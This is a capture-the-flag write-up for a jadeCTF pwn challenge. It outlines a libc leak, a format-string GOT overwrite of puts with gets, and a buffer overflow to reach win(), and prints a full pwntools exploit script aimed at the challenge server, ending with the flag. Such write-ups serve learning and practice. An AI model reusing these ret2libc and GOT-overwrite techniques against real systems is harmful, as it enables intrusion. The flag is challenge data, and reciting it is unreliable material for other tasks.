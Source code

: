 1. Leak address of some common functions to get the LIBC base, and ret to `you_cant_see_me()`.
2. Perform a GOT overwrire to change `puts` to `gets`.
3. Perform a simple buffer overflow to call the `win()` function, and also simultaneously change the value of `local_c` to something other than 0.  
  
**solve.py**
```py
from pwn import *

BINARY = "chall"
LIBC = "libc6_2.23-0ubuntu11.2_amd64.so"

context.binary = BINARY
elf = context.binary
rop = ROP(elf)
libc = ELF(LIBC)

p = remote("34.76.206.46", 10005)
# p = elf.process()

p.sendlineafter(b"your name: ", b"Ramesh")
p.sendlineafter(b"what you would like to do: ", b"2")

# First, leak libc base and rebase libc
OFFSET = 120

payload = flat(
    cyclic(OFFSET),
    p64(rop.find_gadget(["ret"]).address),
    p64(rop.find_gadget(["pop rdi", "ret"]).address),
    p64(elf.got["puts"]),
    p64(elf.plt["puts"]),
    p64(elf.symbols["you_cant_see_me"])
)

p.sendlineafter(b"lucky one ;): ", payload)

LEAK = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"puts address -> {hex(LEAK)}")

LIBC_BASE =  LEAK - libc.symbols["puts"]
log.info(f"libc base -> {hex(LIBC_BASE)}")

libc.address = LIBC_BASE


# Now, GOT overwrite, change puts to gets
payload = fmtstr_payload(6, {elf.got['puts'] : libc.symbols["gets"]})
p.sendlineafter(b"are you?\n", payload)

payload = flat(
    cyclic(40),
    elf.symbols["win"]
)

p.sendlineafter(b"s33 me!\n", payload)

p.interactive()
p.close()
```
  
FLAG: `jadeCTF{ret2libc_can_b3_fun_a5_w3ll}`